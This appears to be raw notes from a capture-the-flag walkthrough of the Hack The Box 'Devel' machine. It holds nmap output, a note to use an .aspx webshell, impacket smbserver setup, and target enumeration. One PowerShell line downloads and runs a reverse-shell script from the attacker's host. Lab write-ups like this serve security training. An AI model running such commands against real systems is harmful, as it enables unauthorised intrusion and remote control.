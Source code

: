 Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-21 09:48 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_sslv2-drown: 
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/7.5
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635: 
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System account.
|           
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Mon, 21 Jun 2021 15:35:21 GMT
Connection: close
Content-Length: 689



use .aspx webshell 



locate smbserver.py                                                                                   148 ⨯ 13 ⚙
/home/kali/.local/bin/smbserver.py
/home/kali/.local/bin/smbserver.pyc
/home/kali/.local/lib/python2.7/site-packages/impacket/smbserver.py
/home/kali/.local/lib/python2.7/site-packages/impacket/smbserver.pyc
/home/kali/sectools/impacket/examples/smbserver.py
/home/kali/sectools/impacket/impacket/smbserver.py
/home/kali/sectools/impacket/tests/SMB_RPC/test_smbserver.py
/usr/lib/python3/dist-packages/impacket/smbserver.py
/usr/share/doc/python3-impacket/examples/smbserver.py
                                                                                                                     
┌──(kali㉿kali)-[~/htb/devel]
└─$ cp /usr/share/doc/python3-impacket/examples/smbserver.py .13 ⚙
                                                                                                                     
┌──(kali㉿kali)-[~/htb/devel]
└─$ ls                                                                                                          13 ⚙
aspx_cmd.aspx  devel.aspx  smbserver.py




powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')



Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          22/6/2021, 3:51:17 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB

PS C:\Users> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5


Directory: C:\Windows\Microsoft.NET\Framework


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         14/7/2009   5:37 ??            v1.0.3705                         
d----         14/7/2009   5:37 ??            v1.1.4322                         
d----         18/3/2017   1:06 ??            v2.0.50727                        
d----         14/7/2009   7:56 ??            v3.0                              
d----         14/7/2009   7:52 ??            v3.5        